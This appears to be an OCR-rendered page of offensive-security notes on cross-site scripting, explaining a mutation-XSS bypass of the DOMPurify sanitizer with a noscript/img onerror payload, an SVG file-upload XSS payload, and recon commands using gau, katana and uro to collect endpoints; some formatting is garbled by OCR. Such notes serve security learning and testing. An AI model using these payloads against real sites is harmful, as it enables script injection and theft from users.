 #### mXSS functions by making use of filter-safe payloads that eventually mutate into unsafe payloads after they have passed filtration.

#### for example in DOMPurify library which google used for securing against xss attacks if you used the payload :
	<noscript><p title="</noscript><img src=x onerror=alert(1)>">
#### it would turn to :
	<noscript><p title=" </noscript>
	`<img src="x" onerror="alert(1)"`>
	"">
	"
#### The reason this happened is because DOMPurify uses a root element `<template`> in its sanitization process. The `<template`> tag is parsed but not rendered, so it is ideal for use in sanitization.

#### Inside of a `<template`> tag, element scripting is disabled. When scripting is disabled, the `<noscript`> tag represents its children elements, but when scripting is enabled it does nothing.

#### In other words, the img onerror is not capable of script execution inside of the sani‐tizer, but when it passed sanitization and moved to a real browser environment the 
`<p title=" 
#### was ignored and the img onerror became valid.

#### <font color="red">XSS through File uplaod</font>:

XSS through svg file : since svg files can contain JavaScript, we use the following payload:

payload:
```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "www.
w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="www.w3.
org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill=
"#009900" stroke="#004400"/>
<script type="text/javascript">
alert(document.domain);
</script>
</svg>
```

XSS through METADATA :

## <font color="red"> Haunt</font>:
#### you can use <font color="red"> GAU</font> for finding the endpoints And use <font color="red">KATANA</font> crawler for spidering the site and finding more useful endpoints.
	echo "example.com" | gau  --threads 5 >> endpoints.txt
#### or 
	echo "example.com" | katana -jc >> endpoints.txt
#### using the tool  <font color="red">URO</font > you can filter uninterested/duplicate content from the endpoints gathered
	cat endpoints.txt | uro >> endpoints-f.txt